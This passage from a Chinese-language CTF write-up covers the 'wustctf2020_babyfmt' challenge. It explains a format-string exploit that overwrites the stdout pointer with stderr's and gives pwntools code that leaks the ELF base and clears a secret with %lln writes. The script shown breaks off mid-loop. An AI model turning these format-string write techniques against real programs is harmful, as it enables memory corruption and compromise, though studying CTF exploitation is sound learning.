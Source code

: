 这里需要注意的是这两个字节可能本地和远程是不同的，需要手动再调一下



## 格式化字符串修改stdout

那么需要做的事情就是利用格式化字符串的漏洞修改stdout的第16位为stderr的第16位

payload

```python
payload = "%7$lln" + "%" + str(leak) + "c" + "%11$hn"
payload = payload.ljust(24,"a")
payload = bytes(payload,'ascii')
print(str(payload))
payload = payload + p64(stdout_addr)
io.recvuntil('>>')
io.sendline('2')
io.send(payload)
```



## 结果

最后做的本地打通了，但是远程有问题，在循环那里就broken pipe了，不知道怎么回事

又比较了一下别人的WP，感觉没什么差别呀

```python
from pwn import *

io = process('./wustctf2020_babyfmt')
#io = remote('node3.buuoj.cn',26157)
context.log_level = 'debug'

secret = 0x202060
stdout = 0x202020
stderr = 0x202040

start = 0x9e0


io.recvuntil('time:')
io.send('a')

io.recvuntil('is ')
start_addr = int(io.recvuntil(':')[:-1])

elf_base = start_addr - start

secret_addr = elf_base + secret
stdout_addr = elf_base + stdout
stderr_addr = elf_base + stderr
success('ELF Base: '+str(hex(elf_base)))


for i in range(8):
    payload = "%7$lln" + "%11$lln"
    payload = payload.ljust(24,"a")
    # %7用来修改a1为0, %11用来修改secret

    payload = bytes(payload,'ascii')
    payload += p64(secret_addr+i*8)

    io.recvuntil('>>')
    io.sendline('2')
```